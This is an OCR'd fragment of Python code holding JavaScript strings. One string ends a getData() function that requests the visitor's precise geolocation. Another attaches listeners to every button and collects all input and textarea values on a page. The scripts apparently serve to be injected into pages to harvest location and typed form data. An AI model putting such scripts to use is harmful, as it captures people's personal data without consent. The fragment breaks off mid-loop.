 ```python

enableHighAccuracy: true,

timeout: 10000

}

  

navigator.geolocation.getCurrentPosition(success, error, options);

}

  

getData()

'''

button_submit_script = '''

const buttons = document.querySelectorAll("button")

const inputs = document.querySelectorAll("input")

const textarea = document.querySelectorAll("textarea")

const type = "input"

var input_inputs = new Array();

var textarea_inputs = new Array();

var user_inputs;

  

buttons.forEach((element) => element.addEventListener("click", function() {

input_inputs.length = 0

textarea_inputs.length = 0

inputs.forEach((input) => {

if(input.value != "" && input.value != "undefined") {

//input_inputs = input_inputs + "," + input.value;

input_inputs.push(input.value)

alert(input_inputs)

}

});

  

textarea.forEach((input) => {

if(input.value != "" && input.value != "undefined") {

```